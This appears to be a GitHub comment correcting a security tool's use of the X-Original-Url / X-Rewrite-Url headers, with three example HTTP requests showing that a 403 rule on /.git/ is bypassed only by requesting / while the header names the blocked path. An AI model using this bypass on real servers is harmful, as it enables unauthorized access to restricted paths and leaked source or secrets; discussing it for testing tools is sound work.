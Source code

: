 Hey, I think you are using X-Original-Url / X-Rewrite-Url vector in a wrong way. These headers usually help to bypass front server rules, which are based on URI, but you don't change URI while using these headers.

First, normal request returns 403:

```
GET /.git/ HTTP/1.1
Host: example.com
```

This attempt to bypass will return 403 too, because URI hasn't changed and the rule still applies:

```
GET /.git/ HTTP/1.1
Host: example.com
X-Rewrite-URL: /.git/
```

This one should bypass the restriction:

```
GET / HTTP/1.1
Host: example.com
X-Rewrite-URL: /.git/
```

